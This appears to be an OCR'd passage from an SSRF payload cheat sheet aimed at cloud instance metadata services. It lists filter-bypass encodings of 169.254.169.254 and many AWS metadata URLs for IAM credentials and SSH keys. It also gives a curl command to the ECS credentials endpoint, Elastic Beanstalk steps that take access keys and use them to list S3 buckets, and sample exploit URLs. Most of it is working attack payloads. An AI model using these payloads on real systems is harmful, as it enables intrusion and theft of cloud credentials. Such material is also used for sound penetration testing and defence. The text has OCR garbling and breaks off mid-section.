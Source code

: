 Static:http://nicob.net/redir6a
Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
Alternate IP encoding

http://425.510.425.510/ Dotted decimal with overflow
http://2852039166/ Dotless decimal
http://7147006462/ Dotless decimal with overflow
http://0xA9.0xFE.0xA9.0xFE/ Dotted hexadecimal
http://0xA9FEA9FE/ Dotless hexadecimal
http://0x41414141A9FEA9FE/ Dotless hexadecimal with overflow
http://0251.0376.0251.0376/ Dotted octal
http://0251.00376.000251.0000376/ Dotted octal with padding
More urls to include

http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
E.g: Jira SSRF leading to AWS info disclosure - https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance

E.g2: Flaws challenge - http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

SSRF URL for AWS ECS
If you have an SSRF with file system access on an ECS instance, try extracting /proc/self/environ to get UUID.

curl http://169.254.170.2/v2/credentials/<UUID>
This way you’ll extract IAM keys of the attached role

SSRF URL for AWS Elastic Beanstalk
We retrieve the accountId and region from the API.

http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
We then retrieve the AccessKeyId, SecretAccessKey, and Token from the API.

http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
notsosecureblog-awskey

Then we use the credentials with aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/.

SSRF URL for AWS Lambda
AWS Lambda provides an HTTP API for custom runtimes to receive invocation events from Lambda and send response data back within the Lambda execution environment.
